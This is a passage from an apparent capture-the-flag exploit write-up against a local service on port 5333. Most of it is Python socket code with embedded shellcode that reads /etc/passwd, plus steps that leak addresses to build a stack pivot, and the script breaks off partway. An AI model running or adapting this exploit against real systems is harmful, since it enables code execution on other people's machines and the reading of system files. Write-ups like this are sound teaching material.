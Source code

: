 ```
s.send('r ' + str(p_vuln) + '\n')
data = s.recv(64)
s.recv(2)   # receive pesky '> '

# terminate connection cleanly
time.sleep(0.1)
s.send('x\n')

s.close()
```

In the other terminal, I observed:

```
connect to [127.0.0.1] from localhost [127.0.0.1] 53500
Trace/breakpoint trap (core dumped)
listening on [any] 5333 ...
```

BOOM! Code execution on my local machine!

At this point I wasted some time to cook up a small shellcode that would re-use existing code in the binary, to verify that the stack was indeed executable in the remote binary. It was, whoop-dee-doo! Next I searched for a proper shellcode and stumbled upon [this one!](http://shell-storm.org/shellcode/files/shellcode-878.php).

I stuck it in the exploit and lo and behold:

```
#!/usr/bin/python

from socket import *
import time, re, struct


def getID(data):
    match = re.search(r'(\d.*)$', data.strip())
    if match:
        return int(match.group(1))

s = socket(AF_INET, SOCK_STREAM)
s.connect(('localhost', 5333))

# banner
print s.recv(1024)

# send first string. this will be our shellcode
s.send('c 0 \xeb\x3f\x5f\x80\x77\x0b\x41\x48\x31\xc0\x04\x02\x48\x31\xf6\x0f\x05\x66\x81\xec\xff\x0f\x48\x8d\x34\x24\x48\x89\xc7\x48\x31\xd2\x66\xba\xff\x0f\x48\x31\xc0\x0f\x05\x48\x31\xff\x40\x80\xc7\x01\x48\x89\xc2\x48\x31\xc0\x04\x01\x0f\x05\x48\x31\xc0\x04\x3c\x0f\x05\xe8\xbc\xff\xff\xff\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64\x41\n')

data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_shellcode = getID(data)

print '[+] shellcode = 0x{0:08x}'.format(p_shellcode)


# send second string. this will be our 'pivot' pointer.
s.send('c 0 ' + struct.pack('<L', p_shellcode) + '\n')
data = s.recv(64)
s.recv(2)   # receive pesky '> '
p_pivot = getID(data)

print '[+] pivot = 0x{0:08x}'.format(p_pivot)
```